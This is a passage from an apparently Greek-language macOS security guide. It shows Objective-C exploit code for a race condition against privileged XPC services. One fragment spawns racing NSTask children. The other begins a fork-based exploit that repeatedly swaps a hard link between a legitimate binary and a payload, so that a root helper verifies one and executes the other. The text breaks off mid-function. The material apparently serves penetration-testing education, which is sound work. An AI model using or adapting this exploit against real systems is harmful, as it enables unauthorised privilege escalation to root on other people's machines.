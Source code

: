 ```objectivec
};

nanosleep(&ts, NULL);
if (++i > 4) {
for (int i = 0; i < RACE_COUNT; i++) {
[processes[i] terminate];
}
return false;
}

return true;
}

int main(int argc, const char * argv[]) {

if(argc > 1) {
// called from the NSTasks
child();

} else {
NSLog(@"Starting the race");
create_nstasks();
}

return 0;
}
```
{{#endtab}}

{{#tab name="fork"}}
Αυτό το παράδειγμα χρησιμοποιεί ένα **`fork`** για να εκκινήσει **παιδιά που θα εκμεταλλευτούν την κατάσταση αγώνα PID** και στη συνέχεια θα εκμεταλλευτούν **μια άλλη κατάσταση αγώνα μέσω ενός σκληρού συνδέσμου:**
```objectivec
// export OBJC_DISABLE_INITIALIZE_FORK_SAFETY=YES
// gcc -framework Foundation expl.m -o expl

#include <Foundation/Foundation.h>
#include <spawn.h>
#include <pthread.h>

// TODO: CHANGE PROTOCOL AND FUNCTIONS
@protocol HelperProtocol
- (void)DoSomething:(void (^)(_Bool))arg1;
@end

// Global flag to track exploitation status
bool pwned = false;

/**
* Continuously overwrite the contents of the 'hard_link' file in a race condition to make the
* XPC service verify the legit binary and then execute as root out payload.
*/
void *check_race(void *arg) {
while(!pwned) {
// Overwrite with contents of the legit binary
system("cat ./legit_bin > hard_link");
usleep(50000);

// Overwrite with contents of the payload to execute
// TODO: COMPILE YOUR OWN PAYLOAD BIN
system("cat ./payload > hard_link");
usleep(50000);
}
```